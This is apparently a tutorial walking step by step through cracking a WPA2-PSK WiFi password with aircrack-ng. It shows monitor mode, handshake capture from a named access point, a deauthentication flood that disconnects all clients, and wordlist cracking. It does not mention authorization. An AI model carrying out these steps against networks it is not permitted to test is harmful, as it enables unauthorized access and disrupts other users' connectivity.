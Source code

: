 # Cracking WiFi WPA2-PSK2 with aircrack-ng

In order to crack WPA2-PSK2, you will need an adapter that can be put into Monitor mode. Most internal WiFi adapters cannot, so you will likely need a USB adapter. I use an [Alfa AUS036ACM](https://amzn.to/4dHXJ62) which works out of the box with Kali Linux. You can also view the full list of [supported adapters](https://www.aircrack-ng.org/doku.php?id=compatible_cards).

`lsusb` will show you connected USB devices. `ip a` or `ifconfig` will show you adapters. Finally `iwconfig` will show you WiFi adapters and whether or not they are in Monitor mode.

```sh
> iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

To view all WiFi APs in range, you can use `iwlist wlan0 scan`.

## Switching into Monitor Mode

```sh
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```
Note that this changes `wlan0` to `wlan0mon`.

## Capturing Frames

```sh
sudo airodump-ng wlan0mon
```
Hit `CTRL+C` once you find the access point that you want to attack and note the BSSID and channel so that we can use it.

## Dump traffic from the access point

```sh
sudo airodump-ng --bssid C2:57:0B:9D:48:AE -c 9 --write spark.dump wlan0mon
```

Once a client connects, you will see `WPA handshake` at the top of the output. You can `CTRL+C` to quit.

```txt
CH  9 ][ Elapsed: 4 mins ][ 2024-08-12 18:05 ][ WPA handshake: C2:57:0B:9D:48:AE

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 C2:57:0B:9D:48:AE  -20 100     2326       65    0   9  360   WPA2 CCMP   PSK  Spark-Guest

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 C2:57:0B:9D:48:AE  F6:2B:45:62:2E:EE  -27    6e- 6e     0      721  EAPOL  Spark-Guest
Quitting...
```

If a client does not connect in a reasonable amount of time, you can kick everyone off the network by sending a `dauth` and having them reconnect. In another terminal window,

```sh
sudo aireplay-ng --deauth 100 -a C2:57:0B:9D:48:AE wlan0mon
```

When you are done, you will find five files created in the current directory. The `cap` file contains the captured handshake.

```txt
spark.dump-01.cap
spark.dump-01.csv
spark.dump-01.kismet.csv
spark.dump-01.kismet.netxml
spark.dump-01.log.csv
```

## Cracking the password

```sh
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C2:57:0B:9D:48:AE spark.dump-01.cap
```

This will go through the possibilities in the wordlist and use them to attempt to find the key which I have removed in the output below 😊.

```txt
                               Aircrack-ng 1.7

      [00:00:03] 17264/14344392 keys tested (6309.92 k/s)

      Time left: 37 minutes, 50 seconds                          0.12%

                           KEY FOUND! [ ******** ]


      Master Key     : 3C D2 15 84 1D B5 F5 26 F4 73 94 09 0F A0 C2 36
                       2A 87 69 E4 E8 2D FA 80 09 5B A3 75 D5 68 31 EE

      Transient Key  : A8 6C 34 59 6D 78 DD D4 0E DF 73 7E D9 4C 35 48
                       75 C2 E7 F3 FD E1 70 D2 8C 78 FF 9D BA EC 17 E9
                       4E 25 91 AA 2F 8E 03 4C BC 48 63 1A CB B9 48 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : 1B BB D0 54 AF FB 0E 2B 77 DB 77 A4 62 27 DC 25
```

## Bringing the network back up

Once you are done, you will need to restart the network services that were killed and bring the network adapters back up.

```sh
sudo service wpa_supplicant restart
sudo service NetworkManager restart
sudo airmon-ng stop wlan0mon
sudo ifconfig wlan0 up
ip a
```
